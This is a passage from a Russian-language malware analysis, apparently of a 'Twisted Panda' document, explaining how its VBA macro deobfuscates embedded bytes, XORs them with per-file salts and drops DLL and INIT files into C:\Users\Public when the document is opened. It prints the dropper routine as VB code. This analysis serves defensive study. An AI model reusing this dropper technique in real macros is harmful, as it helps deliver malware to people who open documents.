 После чего, сверяется длина строки, необходимо, чтобы строка делилась на 4 без остатка. Далее у нас есть 2 вложенных цикла, в первом чанками по 4 символа идёт перебор, во втором каждый символ из чанка приводится к нужному формату через функции mid, left и др. В конечном итоге на выходе функции мы получаем строку accef34Decode, которая прошла один из этапов деобфускации.
Эта строка вместе с параметрами: полный путь до файла **(C:\Users\Public\cmpbk32.dll)**, деобфусцированной строкой из предыдущей функции **accef34Decode()**, солью (потребуется для XOR) и смещением, передаётся в функцию **wafll()**.

```vbnet
Private Sub wafll(ByVal st As String, ByVal d As String, salt As Byte, offset As Long)

    Dim s11() As Byte
    s11 = StrConv(d, vbFromUnicode)
    For j = 4 To UBound(s11)
        s11(j) = s11(j) Xor salt
    Next j
    
    h = crf(st, &H40000000, 0, 0, 2, 0, 0)
    r = wtf(h, s11(0 + offset), Len(d), bb2, 0)
    clf (h)
End Sub
```

В функции **wafll()** происходит ещё один этап деобфускации и приведения типа string в Byte, а после дроп файлов на хост.
**s11 = StrConv(d, vbFromUnicode)** - здесь строка преобразуется из Unicode. После чего идёт цикл с элемента по индексу 4 до верхней границы массива, в этом цикле с каждым элементом производится операция XOR с солью, для файла cmdl32.dll salt = Cbyte(79), для файла **cmdl64.dll salt = CByte(73) и для INIT salt = CByte(0)**.
Итого, после открытия документа вредоносные файлы cmdl32.dll & INIT (зависит от разрядности ОС) создаются с помощью функции crf, например:

**CreateFileA("C:\Users\Public\cmpbk32.dll", GENERIC_WRITE, 0 , 0, 2, 0 ,0)**
И в данный файл записывается весь деобфусцированный байт-код следующей Win API функцией WriteFileA().
На рисунке 11 можно заметить вредоносные файлы, которые создаются после открытия вредоносного документа.

![11](/assets/images/twisted_panda/11.png){:class="img-responsive"}
